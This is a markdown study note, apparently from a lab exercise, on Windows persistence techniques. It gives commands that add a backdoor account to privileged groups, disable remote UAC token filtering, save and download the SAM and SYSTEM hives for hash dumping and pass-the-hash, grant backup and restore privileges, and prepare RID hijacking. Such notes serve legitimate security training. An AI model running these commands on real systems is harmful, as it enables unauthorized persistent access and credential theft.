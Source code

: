 # Windows Persistence - Tampering with Unprivileged Accounts

## Assigning Group Memebership

Unprivileged Accounts less monitored than administrative accounts Assigning Groups Memberships is a direct way to gain administrative privileges.

```powershell
net localgroup administrators hacker /add
net localgroup "Backup Operators" hacker /add # Less suspicious - cant RDP or WinRM
net localgroup "Remote Management Users" hacker /add # Same as the above but can remote in
```

`LocalAccountTokenFilterPolicy` from [[Windows-User-Account-Control]] strips any local account of its administrative privileges when logging in remotely with a limited access token with no administrative privileges, to regain those change them in the registery:

```powershell
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1
```

With Evil-WinRm (see [[evil-winrm-Cheatsheet]]) we can backup SAM and SYSTEM files and dowload them 

```powershell
reg save hklm\system system.bak
reg save hklm\sam sam.bak
download system.bak
download sam.bak
```

With [[Impacket-Cheatsheet]] `secretsdump.py` we can dump the hashes of those files, and use Evil-Winrm to perform a pass-the-hash attack.

## Special Privileges and Security Descriptors
For reference see the official documentation regarding [Privilege Constants](https://learn.microsoft.com/en-us/windows/win32/secauthz/privilege-constants) and forcomplete token table [[SePrivilege-Token-Table]].

The Backup Operators group has the following:
-   **SeBackupPrivilege:** The user can read any file in the system, ignoring any DACL in place, see [[SeBackupPrivilege]]
-   **SeRestorePrivilege:** The user can write any file in the system, ignoring any DACL in place.

As this group we can assign the above privileges to any user regardless of group,
```powershell
secedit /export /cfg config.inf
# add username to the lines 
SeBackupPrivilege = *S-1-5...sid,<username>
SeRestorePrivilege = *S-1-5...sid,<username>
# convert .inf into .sdb, then load the configuration back into the system
secedit /import /cfg config.inf /db config.sdb
secedit /configure /db config.sdb /cfg config.inf
# This user can log in via WinRM; you can instead adding user to Remote Management group 
# Change the Security Descriptor; requires GUI.
Set-PSSessionConfiguration -Name Microsoft.PowerShell -showSecurityDescriptorUI
# add user
```

## RID Hijacking
Changing some registry values to trick the operating systemlike you are the Administrator. Relateive ID (RID) is assign on user creation when that user logs in the LSASS create a access token based the RID matched from the SAM registery hive. This method will require ability to edit the registery. With [[Sysinternals-Psexec]]
```powershell 
PsExec64.exe -i -s regedit
# Computer\HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users
```


## References

[THM Windows Persistence Room](https://tryhackme.com/room/windowslocalpersistence)
[Privilege Constants](https://learn.microsoft.com/en-us/windows/win32/secauthz/privilege-constants)
